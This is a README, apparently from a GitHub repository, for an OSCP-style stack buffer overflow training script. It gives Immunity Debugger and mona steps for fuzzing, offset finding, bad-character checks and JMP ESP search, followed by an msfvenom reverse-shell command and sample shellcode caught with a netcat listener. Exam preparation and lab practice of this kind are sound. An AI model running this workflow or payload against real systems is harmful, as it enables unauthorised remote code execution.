 # Stack-Buffer-Overflow

An "All in One" python script for OSCP style stack based buffer overflows.

![image](https://user-images.githubusercontent.com/41350723/173417707-2753ae6f-1bb2-4858-a1a5-a38d7cdc1fb4.png)


## Before you begin.
* Start the vulnerable app via Immunity Debugger or attach it to Immunity 
* Change IP and Port in bof.py
* Connect using netcat and see if you get a banner or an options menu.
* If you do, uncomment s.receive(1024) on line 52.
* If you have to prefix your buffer value with a command, set prefix value otherwise leave it as empty string.
* If after sending a command if you get any kind of reply, uncomment s.receive(1024) on line 55.

![image](https://user-images.githubusercontent.com/41350723/173417177-d499ac6e-a14c-4108-a075-836d1023b784.png)

##  Option 1 -- Fuzzer
* Execute and make a note of the largest number of bytes that were sent.
* Generate a cyclic pattern of same length as the bytes that crashed the server.
  
  `msf-pattern_create -l <Bytes>`

* Paste the cyclic string into payload variable in bof.py
* Restart the app in Immunity Debugger
    
## Option 2 -- Get Offset
* Restart the app in Immunity Debugger
* Execute Option 2
* In Immunity Debugger, run the following mona command

    `!mona findmsp -distance <bytes>`    ( Change to same length as the pattern )

* In the output you should see a line which states:

    `EIP contains normal pattern : ... (offset XXXX)`

* Update bof.py and set the offset variable to this value

## Option 3 -- Verify Offset
* Restart the app in Immunity Debugger
* Execute Option 3
* The EIP register should now have 4 B's (i.e. 42424242).

## Option 4 -- Generate BadChars
* Generate a bytearray using mona, and exclude the null byte (\x00).

    `!mona bytearray -b "\x00"`

* Note-down the path of the bytearray.bin
* Execute Option 4 to generate a string of bad chars that is identical to the bytearray
* Update bof.py and change the payload variable to this string

## Option 5 -- Check BadChars
* Restart the app in Immunity Debugger
* Execute Option 5
* Make a note of the ESP register address and use it in the following mona command:

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>` <-- modify path and ESP address

* A popup should appear labelled "mona Memory comparison results".
  * The first badchar in the list should be the null byte (\x00).
  * Make a note of any others.
* Generate a new bytearray in mona including these new badchars along with \x00.
    
    `!mona bytearray -b "\x00"   <-- Add the other badchars`

* In bof.py remove the new badchars from paload variable.
* Restart the app in Immunity Debugger
* Run Option 5 again
* Run the mona command agian (Check ESP register address again, it might have changed)

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>`    <-- modify path and ESP address

* Repeat these steps until the results status returns "Unmodified"

## Option 6 -- Exploit
* With the Application either running or in a crashed state, run one of the following mona commands.
Make sure to add all the badchars you identified (including \x00):
  
  * Find JMP ESP - inside the main executable
	  
    `!mona jmp -r esp -cpb "\x00"`    <-- Add the other badchars identified
	    
  * Find JMP ESP - inside one of the DLLs
	  
    `!mona modules`
    * We need to find a .dll were Rebase, SafeSEH, ASLR, NXCompat are set to False. When you find it, run the command below to search for a JMP ESP (FFE4), inside the dll.
	
	  `!mona find -s "\xff\xe4" -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
	  
      or
	
      `!mona find -s 'jmp esp' -type instr -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
      
    * This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window.
  * Choose an address and update bof.py by setting the "EIP" variable to the address, written backwards (ittle endian).
    
    `For example if the address is 01020304 in Immunity, write it as EIP = "\x04\x03\x02\x01" in bof.py.`

* Run the follwing msfvenom command to generate a reverse shell
    
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`       <-- Add the other badchars

* Update bof.py by pasting the generated C code strings into shellcode variable using the following notation:
    ```
    shellcode = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
    "\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
    ...
    "\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
    "\x19\x53\xd0\x92\x19\x53\x2e\x1d")
    ```
      Notice there is no semicolon ; at the end
* Adjust the nopsled variable if needed
* Execute Option 6 after setting up a netcat listner.


